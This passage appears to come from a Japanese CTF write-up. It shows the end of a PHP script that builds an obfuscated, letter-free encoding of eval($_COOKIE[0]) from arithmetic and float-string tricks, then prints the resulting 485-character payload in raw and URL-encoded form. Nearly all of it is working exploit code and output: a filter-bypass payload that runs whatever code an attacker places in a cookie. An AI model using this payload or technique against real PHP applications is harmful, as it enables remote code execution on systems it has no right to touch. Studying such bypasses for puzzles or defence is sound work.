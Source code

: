 ```php
}

$table[ord('.')] = '((0.1).(0)){1}';
$table[ord('-')] = '(((-1).(1)){0})';
$table[ord('+')] = '(((10**19).(1)){4})';
$table[ord('E')] = '((10**19).(0)){3}';
$table[ord('I')] = '(((1/0).(1/0)){0})';
$table[ord('N')] = '(((1/0).(1/0)){1})';
$table[ord('F')] = '(((1/0).(1/0)){2})';

$table[ord('e')] = '(e)';
$table[ord('v')] = '(v)';
$table[ord('a')] = '(a)';
$table[ord('l')] = '(l)';

// make table
go($table);
go($table);

// yay
$payload = 'eval((START.DOLLAR._.COOKIE.POYO.END))';
$payload = preg_replace('/DOLLAR/', encode($table, '$'), $payload);
$payload = preg_replace('/COOKIE/', encode($table, 'COOKIE'), $payload);
$payload = preg_replace('/POYO/', encode($table, '{0}'), $payload);
$payload = preg_replace('/START/', encode($table, 'eval('), $payload);
$payload = preg_replace('/END/', encode($table, ');'), $payload);

$len = strlen($payload);
echo "length: {$len}\n$payload\n";
echo urlencode($payload) . "\n";
```

これを実行すると、以下のようにコードが生成されました。

```
$ php gen.php
length: 485
eval((((e)).((v)).((a)).((l)).(((((8).(0)){0})&((l)))).(((((4).(0)){0})&((e))))._.(((((((2).(0)){0})&((((1/0).(0)){1}))))|((((((1/0).(0)){0}))&((e)))))).((((((1/0).(0)){0}))|((((1/0).(0)){1})))).((((((1/0).(0)){0}))|((((1/0).(0)){1})))).((((((1/0).(0)){0}))|(((((2).(0)){0})&((((1/0).(0)){1})))))).((((1/0).(0)){0})).(((10**19).(0)){3}).(((((2).(0)){0})|((((1/0).(0)){0})))).(((0).(0)){0}).(((((1).(0)){0})|((l)))).(((((9).(0)){0})&((((e))|((l)))))).(((((2).(0)){0})|(((9).(0)){0})))))
eval%28%28%28%28e%29%29.%28%28v%29%29.%28%28a%29%29.%28%28l%29%29.%28%28%28%28%288%29.%280%29%29%7B0%7D%29%26%28%28l%29%29%29%29.%28%28%28%28%284%29.%280%29%29%7B0%7D%29%26%28%28e%29%29%29%29._.%28%28%28%28%28%28%282%29.%280%29%29%7B0%7D%29%26%28%28%28%281%2F0%29.%280%29%29%7B1%7D%29%29%29%29%7C%28%28%28%28%28%281%2F0%29.%280%29%29%7B0%7D%29%29%26%28%28e%29%29%29%29%29%29.%28%28%28%28%28%281%2F0%29.%280%29%29%7B0%7D%29%29%7C%28%28%28%281%2F0%29.%280%29%29%7B1%7D%29%29%29%29.%28%28%28%28%28%281%2F0%29.%280%29%29%7B0%7D%29%29%7C%28%28%28%281%2F0%29.%280%29%29%7B1%7D%29%29%29%29.%28%28%28%28%28%281%2F0%29.%280%29%29%7B0%7D%29%29%7C%28%28%28%28%282%29.%280%29%29%7B0%7D%29%26%28%28%28%281%2F0%29.%280%29%29%7B1%7D%29%29%29%29%29%29.%28%28%28%281%2F0%29.%280%29%29%7B0%7D%29%29.%28%28%2810%2A%2A19%29.%280%29%29%7B3%7D%29.%28%28%28%28%282%29.%280%29%29%7B0%7D%29%7C%28%28%28%281%2F0%29.%280%29%29%7B0%7D%29%29%29%29.%28%28%280%29.%280%29%29%7B0%7D%29.%28%28%28%28%281%29.%280%29%29%7B0%7D%29%7C%28%28l%29%29%29%29.%28%28%28%28%289%29.%280%29%29%7B0%7D%29%26%28%28%28%28e%29%29%7C%28%28l%29%29%29%29%29%29.%28%28%28%28%282%29.%280%29%29%7B0%7D%29%7C%28%28%289%29.%280%29%29%7B0%7D%29%29%29%29%29
```
